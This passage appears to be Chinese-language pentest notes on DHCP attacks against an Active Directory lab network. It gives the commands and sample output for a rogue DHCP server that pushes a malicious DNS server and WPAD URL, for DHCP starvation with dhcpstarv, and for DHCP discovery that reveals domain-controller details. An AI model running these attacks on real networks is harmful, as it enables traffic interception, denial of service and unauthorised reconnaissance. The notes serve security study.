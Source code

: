这样的话客户端就会发送DNS请求到恶意DNS服务器去，并转发到如假冒DC，可以用 [yersinia](https://github.com/tomac/yersinia) or [dhcplayer ](https://github.com/Zer1t0/dhcplayer#dhcp-server)来执行这些攻击

```shell
###(rogue) DHCP server with dhcplayer

$ dhcplayer server -I eth2 --wpad http://here.contoso.local/wpad.dat -v --domain contoso.local          
INFO - IP pool: 192.168.100.1-192.168.100.254
INFO - Mask: 255.255.255.0
INFO - Broadcast: 192.168.100.255
INFO - DHCP: 192.168.100.44
INFO - DNS: [192.168.100.44]
INFO - Router: [192.168.100.44]
INFO - WPAD: http://here.contoso.local/wpad.dat
INFO - Domain: contoso.local
INFO - REQUEST from 52:54:00:5d:56:b9 (debian10)
INFO - Requested IP 192.168.100.145
INFO - ACK to 192.168.100.145 for 52:54:00:5d:56:b9
INFO - REQUEST from 52:54:00:76:87:bb (ws01-10)
INFO - Requested IP 192.168.100.160
INFO - ACK to 192.168.100.160 for 52:54:00:76:87:bb
```

### **DHCP Starvation**

把DHCP地址请求完，然后自己搭一个，工具 [dhcpstarv](https://github.com/sgeto/dhcpstarv), [yersinia](https://github.com/tomac/yersinia) or [dhcplayer](https://github.com/Zer1t0/dhcplayer#starvation-attack)

```bash
###DHCP starvation attack with dhcpstarv

$ dhcpstarv -i enp7s0
08:03:09 11/30/20: got address 192.168.100.7 for 00:16:36:99:be:21 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.8 for 00:16:36:25:1f:1d from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.9 for 00:16:36:c7:79:f2 from 192.168.100.2
08:03:09 11/30/20: got address 192.168.100.10 for 00:16:36:f4:c3:e9 from 192.168.100.2
```

**DHCP Discovery**

可以发送DISCOVER到网络中看能拿到什么信息，可以通过这种方式拿一些未授权信息，如域或服务器地址，一般是DC的信息。 

```shell
###Getting information from the DHCP server

$ dhcplayer discover -I eth2 -n

OFFER received from 192.168.100.2
Offered IP: 192.168.100.3
Client MAC: 52:54:00:88:80:0c
DHCP Server: 192.168.100.2
Options:
[1] Subnet Mask: 255.255.255.0
[58] Renewal Time: 345600
[59] Rebinding Time: 604800
[51] IP Address Lease Time: 691200
[54] DHCP Server ID: 192.168.100.2
[3] Router: 192.168.100.2
[5] Name Server: 192.168.100.2
[6] Domain Server: 192.168.100.2
[15] Domain Name: contoso.local
[44] NetBIOS Name Server: 192.168.100.2
[77] Unknow: [0, 14, 82, 82, 65, 83, 46, 77, 105, 99, 114, 111, 115, 111, 102]
[252] WPAD: http://isalocal.contoso.local:80/wpad.dat
```
